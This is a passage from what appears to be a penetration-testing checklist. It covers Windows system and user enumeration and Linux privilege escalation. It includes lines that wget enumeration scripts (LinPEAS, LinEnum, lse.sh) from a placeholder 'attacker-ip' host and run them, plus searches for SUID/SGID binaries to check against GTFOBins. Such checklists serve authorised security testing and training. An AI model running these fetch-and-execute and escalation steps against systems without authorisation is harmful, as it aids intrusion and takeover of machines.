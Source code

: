 #### Windows System Information
- [ ] **Basic System Info**:
  ```cmd
  whoami /all
  systeminfo
  hostname
  ```
- [ ] **User & Group Enumeration**:
  ```cmd
  net users
  net localgroup administrators
  query user
  ```
- [ ] **Network Configuration**:
  ```cmd
  ipconfig /all
  netstat -ano
  arp -a
  ```

---

## ⬆️ Phase 5: Advanced Privilege Escalation

### Linux Privilege Escalation (Comprehensive)

#### Automated Enumeration Scripts
- [ ] **LinPEAS**:
  ```bash
  wget http://attacker-ip/linpeas.sh
  chmod +x linpeas.sh
  ./linpeas.sh | tee linpeas_output.txt
  ```
- [ ] **LinEnum**:
  ```bash
  wget http://attacker-ip/LinEnum.sh
  chmod +x LinEnum.sh
  ./LinEnum.sh -t
  ```
- [ ] **Linux Smart Enumeration**:
  ```bash
  wget http://attacker-ip/lse.sh
  chmod +x lse.sh
  ./lse.sh -l2
  ```

#### Manual Privilege Escalation Checks

##### SUID/SGID Binaries
- [ ] **Find SUID Files**:
  ```bash
  find / -perm -u=s -type f 2>/dev/null
  find / -perm -4000 -type f 2>/dev/null
  ```
- [ ] **Find SGID Files**:
  ```bash
  find / -perm -g=s -type f 2>/dev/null
  find / -perm -2000 -type f 2>/dev/null
  ```
- [ ] **GTFOBins Check**: Cross-reference found binaries with GTFOBins
